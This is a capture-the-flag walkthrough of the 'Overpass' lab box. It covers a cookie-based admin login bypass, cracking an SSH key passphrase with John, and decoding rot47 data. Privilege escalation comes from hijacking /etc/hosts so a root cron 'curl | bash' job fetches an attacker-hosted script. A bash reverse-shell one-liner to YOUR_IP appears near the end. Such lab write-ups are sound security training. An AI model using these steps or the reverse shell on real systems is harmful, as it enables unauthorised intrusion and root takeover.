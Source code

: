 # Overpass writeup

First order of business, download and analyze the [source code](http://box.ip/downloads/).

We can see that both functions `saveCredsToFile` and `loadCredsFromFile` the function `rot47` to "encrypt" the credentials. If you know a thing or 2 about crypto, you should know that `rot47` and other caeser ciphers are incredibly weak and can easily be cracked with pen and paper. Even the comment in the source code of the front page says it:

> Yeah right, just because the Romans used it doesn't make it military grade, change this?

Next, to check the web application.

The about us page at `/aboutus` has a few names we can use for enumeration and brute forcing

- Ninja
- Pars
- Szymex
- Bee
- MuirlandOracle

It also mentions the rockyou word list, which can be tested with the found potential username names.

Using `gobuster`, we can find the admin login page

```sh
$ gobuster dir -u 'http://box.ip/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html -t 100 -r -o root
/img                  (Status: 200) [Size: 183]
/index.html           (Status: 200) [Size: 2431]
/aboutus              (Status: 200) [Size: 1749]
/downloads            (Status: 200) [Size: 1987]
/admin                (Status: 200) [Size: 1525]
/admin.html           (Status: 200) [Size: 1525]
/css                  (Status: 200) [Size: 79]
/404.html             (Status: 200) [Size: 782]
```

Looking at the source for the `/admin` page, we see a `login.js`

![login.js in /admin](./admin-source.png)

Looking at the function `login()`, we can see that the page tells the user "Incorrect Credentials" if the credentials are incorrect and set the cookie "SessionToken" and goes back to `/admin` otherwise.

![function login()](./func-login.png)

This means that the only thing differentiating a logged in user and a non-logged-in user is having the cookie `SessionToken` set, which doesn't even include a value! To bypass the credential check, simple add the `SessionToken` cookie for the page in your browser and be shown an SSH key.

![/admin loggin in](./admin-logged-in.png)

We can then use that SSH key to log in to the server's SSH as James

```sh
$ ssh -i ssh-key james@box.ip
Enter passphrase for key 'ssh-key':
```

... but the key is password-protected. We can crack the password with John.

```sh
$ ssh2john ssh-key > ssh.john
$ john ssh.john ~/tools/SecLists/Passwords/Leaked-Databases/rockyou-50.txt
```

... and log in!

```sh
james@overpass-prod:~$ ls
todo.txt  user.txt

james@overpass-prod:~$ cat todo.txt
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

So Jame's password should be somewhere on the machine. If you look at the source code for overpass, you'll see in `main()` that all the encrypted data is in `~/.overpass`.

```sh
james@overpass-prod:~$ ls -la
total 48
drwxr-xr-x 6 james james 4096 Jun 27  2020 .
drwxr-xr-x 4 root  root  4096 Jun 27  2020 ..
lrwxrwxrwx 1 james james    9 Jun 27  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james  220 Jun 27  2020 .bash_logout
-rw-r--r-- 1 james james 3771 Jun 27  2020 .bashrc
drwx------ 2 james james 4096 Jun 27  2020 .cache
drwx------ 3 james james 4096 Jun 27  2020 .gnupg
drwxrwxr-x 3 james james 4096 Jun 27  2020 .local
-rw-r--r-- 1 james james   49 Jun 27  2020 .overpass
-rw-r--r-- 1 james james  807 Jun 27  2020 .profile
drwx------ 2 james james 4096 Jun 27  2020 .ssh
-rw-rw-r-- 1 james james  438 Jun 27  2020 todo.txt
-rw-rw-r-- 1 james james   38 Jun 27  2020 user.txt
james@overpass-prod:~$ cat .overpass
[REDACTED]
```

Knowing that everything is just `rot47`'d, we can have [cyberchef](https://gchq.github.io/CyberChef/#recipe=ROT47(47)) decrypt it to get the data

```
[{"name":"System","pass":"REDACTED"}]
```

If you check `/etc/crontab` (I found this using [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh)), you'll see an interesting cron job

```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Run by root, this `curl`s a file from `overpass.thm` and pipes it to `bash` for execution. It's generally a terrible idea to `curl` unknown files and pipe them to `bash` since it can lead to execution of arbitrary unknown code, but it should be safe in this case since the admins know exactly what the code is, right?

Well actually, no. The problem here is that we may not know for sure who `overpass.thm` is. Why? If you check `/etc/hosts`...

```sh
james@overpass-prod:~$ ls -l /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```

... everyone has read/write permission to it! With this, we can edit `/etc/hosts` and change `overpass.thm` to be out attacking machine. To exploit, do the following:

1. Put this in `/etc/hosts`:

```
YOUR_IP overpass.thm
```

2. Create `downloads/src/buildscript.sh` on the attacking machine with something you wanna run, e.g. a reverse shell, and host it (don't forget to make it on port 80)

```sh
bash -c 'exec bash -i &>/dev/tcp/YOUR_IP/PORT <&1'
```

3. Listen for the call (runs every minute) and profit

Have fun with your root shell.

